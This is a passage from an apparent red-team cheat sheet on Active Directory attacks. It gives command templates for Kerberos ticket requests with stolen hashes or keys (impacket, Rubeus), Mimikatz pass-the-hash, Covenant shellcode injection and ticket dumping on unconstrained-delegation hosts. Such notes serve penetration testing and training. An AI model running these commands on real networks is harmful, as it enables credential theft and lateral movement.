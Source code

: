The same can be done with impacket:

```text
getTGT.py <domain>/<user> -hashes :<hash>
getTGT.py <domain>/<user> -aesKey:<key>
getTGT.py <domain>/<user>:'password'
```

### Process Injection

There is a custom [Covenant task](https://github.com/ZeroPointSecurity/RTOVMSetup/tree/master/Covenant) that allows to inject shellcode into a process. By  typing `Inject` a popup will appear where you paste the shellcode.

[Donut ](https://github.com/TheWover/donut)can be used to generate shellcode from .NET assemblies.

### Pass-The-Hash

#### Mimikatz

```text
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash> /run:powershell
```

When running `mstsc.exe /restrictedadmin` this could give us RDP access to other boxes without knowing the clear text cred \(but passing the hash with xfreerdp works too\).

### Netonly

A logon session can only accommodate one TGT at a time, therefore its sometimes required to create another session before applying a TGT to it.

```text
Rubeus triage
Rubeus createnetonly /program:c:\windows\system32\cmd.exe
Rubeus triage
Rubeus ptt /luid:<luid> /ticket:<ticket>
```

After applying the ticket to the process we can impersonate it e.g. in Covenant `Impersonate Process <pid>`.

### Unconstrained Delegation

Unrestricted access to services on behalf of a user. Find with:

```text
Get-DomainComputer -Unconstrained -Properties DnsHostName
```

List & dump ticket:

```text
Rubeus triage
Rubeus dump /luid:<>
```

Since we can only have 1 ticket per logon session spawn a new process first and note luid:

